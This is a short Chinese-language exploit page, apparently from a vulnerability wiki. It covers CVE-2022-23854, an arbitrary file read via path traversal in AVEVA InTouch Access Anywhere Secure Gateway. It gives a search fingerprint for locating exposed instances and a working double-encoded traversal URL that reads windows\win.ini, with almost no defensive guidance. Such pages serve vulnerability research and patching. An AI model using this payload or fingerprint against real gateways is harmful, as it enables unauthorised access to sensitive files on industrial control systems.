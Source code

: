 # AVEVA InTouch安全网关 AccessAnywhere 任意文件读取漏洞 CVE-2022-23854

## 漏洞描述

AVEVA InTouch Access Anywhere Secure Gateway 2020 R2及以前的版本存在路径遍历漏洞，未授权的攻击者可利用该漏洞获取服务器敏感信息。

## 漏洞影响

<a-checkbox checked>AVEVA InTouch安全网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="InTouch Access Anywhere"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1665393583233-2d925e11-abc1-42ef-9f37-10142de6a596.png)

验证POC

```sql
/AccessAnywhere/%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255cwindows%255cwin.ini 
```

![img](/assets/PeiQi-Wiki/img/1665393604635-b68b82e6-a3e9-48e9-8b40-46c7472c442d.png)